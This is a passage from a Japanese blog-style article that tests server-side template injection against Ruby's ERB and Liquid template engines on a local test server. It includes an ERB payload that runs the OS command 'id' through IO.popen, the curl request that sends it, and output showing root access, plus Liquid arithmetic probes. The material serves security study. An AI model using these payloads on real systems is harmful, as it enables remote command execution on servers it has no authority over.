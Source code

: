 </div>

#### パターン３: OSコマンドの実行

▼ インジェクション文字列: 「`<%= IO.popen('id').readlines() %>`」

<div class="md-code" style="width:100%">

```
# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%69%64%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%25%3e'
```

</div>

▼ 出力結果

<div class="md-code" style="width:100%">

```
hi ["uid=0(root) gid=0(root) groups=0(root)\n"]
```

</div>

### Liquid テンプレートエンジン

　「最低限の機能のみを持つテンプレートエンジン」の代表である Liquid の検証を行います。  

#### パターン１: 簡単な演算

　まずは、Rubyの構文に従った乗算を行います。

▼ インジェクションする文字列: 「`{{ 7 * 7 }}`」

<div class="md-code" style="width:100%">

```
# curl 'http://127.0.0.1:4567/liquid?name=%7b%7b%20%37%20%2a%20%37%20%7d%7d'
```

</div>

▼ 出力結果

<div class="md-code" style="width:100%">

```
hi 7
```

</div>

　出力の期待値は49なので、乗算が行われていないようです。  

　Liquid について調べてみると乗算には「**フィルタ**」を利用する必要があります。  

https://shopify.dev/docs/api/liquid/filters/times

　乗算を実現する「times」フィルタを用いて再度検証します。  

▼ インジェクション文字列: 「`{{ 7 | times: 7 }}`」
